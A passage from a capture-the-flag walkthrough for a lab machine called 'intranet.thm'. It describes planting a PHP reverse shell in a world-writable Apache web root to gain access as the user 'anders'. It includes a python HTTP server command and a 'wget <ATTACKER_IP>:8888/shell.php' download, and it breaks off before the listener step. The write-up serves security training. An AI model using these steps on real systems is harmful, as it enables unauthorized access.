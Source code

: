 ![50146ebb71fcd0f956f2a14199586285.png](/resources/65d1f20bebdc44849a4f7df685d1e3c1.png)

We find that the user "anders" is running `apache2` which is a webserver powered by [Apache](https://www.apache.org/). The hosted web pages are usually located in `/var/www/html` so let's check that directory:

![c2a062d5066e1bed5667567cefba589b.png](/resources/18c9932ccd664e89ab461923fa66b049.png)

Using `cat` to print the contents of "index.html":

![c6e1444e3971a367673e8cb77cc0e872.png](/resources/1612f5bfafbd41f59b8b346ec277014c.png)

We can check the website on port 80 to see if this page is accessible, `http://intranet.thm`.

## \[+] Port 80 - HTTP

### \[-] intranet.thm

Here we find the page that is hosted by the user "anders":

![e2e60ef57d3ad0d3e9b400b6d8ed9ba4.png](/resources/17b161b727d54739b04402443f22382a.png)

We can upload a PHP reverse shell script and access it on port 80 to get a reverse shell as the user "anders".

First we should check if the directory `/html` is writeable using `ls -lah`:

```
$ ls -lah /var/www/
```

![a6274bae35ab0bb9d1c727c8392ee9a9.png](/resources/c2bbb14318ee4557a08c61562dff2bc7.png)

The `/html` directory has the full permissions of `drwxrwxrwx` so we are able to get our PHP reverse shell script in here.

We can generate a PHP reverse shell script using [revshells.com](https://www.revshells.com/). Enter the attacker machine's IP and port 4445 then click the disk icon to save it as "shell.php":

![84d9e280e0c5e77046e161805160bf2c.png](/resources/e0058acd90b44814903434d6fc3373c7.png)

On the attacker machine, host it using Python HTTP server:

```
$ python3 -m http.server 8888
```

On the victim machine, change directory to `/var/www/html` then use [wget](https://linux.die.net/man/1/wget) to download "shell.php" from the attacker machine:

```
$ cd /var/www/html
$ wget <ATTACKER_IP>:8888/shell.php
```

On the attacker machine, start another listener on port 4445:
